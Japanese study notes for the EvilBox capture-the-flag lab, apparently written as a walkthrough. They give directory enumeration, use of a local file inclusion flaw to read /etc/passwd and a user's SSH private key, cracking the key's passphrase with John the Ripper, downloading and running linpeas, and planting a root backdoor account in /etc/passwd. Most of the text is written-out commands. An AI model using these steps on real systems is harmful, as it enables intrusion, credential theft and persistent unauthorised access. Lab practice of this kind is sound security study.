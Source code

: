 ## EvilBox(tryHackMe2と似ている) 653~
### ポートスキャンまでは同じ
- 22, 80

### Gobuster
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - secretという怪しいディレクトリがある
- `gobuster dir -u $URL/secret/ -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - 上の`$URL`は`"http://$IP/secret/"`でもいい
  - `evil.php`という怪しいファイルがある
  - サイトを見てみる

### ローカルファイルインクルード攻撃ができないかチェック
- evil.phpに以下のコードができれば、リンクからコマンドを入力できる。　['page']の部分に正しい単語を見つけてこれば使える
```php
<?php
  $page= $_GET['page'];
  if ($page)
      include $page;
?>
```

### WFuzz
- `wfuzz -u "$URL/secret/evil.php?FUZZ=../../../../etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 0`
  - FUZZの部分が順に入れ替わる
  - ここでは`command`が当てはまる 

### /etc/passwdをみる
- ウェブサイトから
- `view-resource:http://192.168.56.110/secret/evil.php?command=/etc/passwd`
- ユーザのroot,mowreeが/bin/bashが使えるのがわかる
### 暗号鍵を取得する
- mowreeの暗号鍵を取得する
- `view-resource:http://192.168.56.110/secret/evil.php?command=/home/mowree/.ssh/id_rsa`
- 暗号鍵はコピーして`cat > id_rsa`でファイルを作っておく
- `chmod 700 id_rsa`
### sshするが失敗する
- パスフレーズが設定されていて失敗する
### 形式を変える
- john the ripperで使えるようにフォーマットを変える、うまく変換できるかまず確認してみる
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa`
- pass_hash.txtを作る
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa > pass_hash.txt` 
### パスフレーズを解読
- `john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt`
- もしエラーになったら、ファイルが間違っているか、過去に一度解いているため以下のコマンドで過去のパスワードがわかる
  - `john --show 過去に使った暗号ファイル`
### ssh
- `ssh mowree@$IP -i id_rsa`
  - -i:暗号鍵のファイルを指定するオプション
### Linpeasを使う
- Pythonのサーバで転送する
  - ParrotOS側のLinpeasを置いてあるフォルダで`sudo python3 -m http.server 8080`を入力する
  - ターゲットサーバ側で`wget http:$IP:8080/linspeas.sh`と入力する
  - ファイルが使えるようにする `chmod +x linpeas.sh`
- Linpeasを使うと`/etc/passwd`が書き換えれることがわかる
  - `./linpeas.sh` > output.txt
  - `cat output.txt`  
### バックドアを仕込む
- passwdファイルに自分のユーザ(root権限を持つ)を書き込んで、いつでも出入りできるようにする
- パスワードを作成する
  - `openssl passwd passwd -1 usersalt`
  - 自分で適当にpasswordを入れる、ここでは`pass`としておく
  - パスワードをコピーしておく
- /etc/passwdに書き込む
  - `echo 'eviluser:ペースト:0:0:root:/root:/bin/bash' >> /etc/passwd`
### フラグの取得
- ユーザを切り替える
  - `su eviluser`
  - パスワードの入力
- `cat /root/root.txt` 
## 初めからする時に削除するもの
- mowreeのhome、user.txt以外は削除
- ParrotユーザのEvilBoxフォルダの中身も削除
- passwdの最終行も削除
  - `sed -e '$d' /etc/passwd`
  - 確認してからリダイレクト
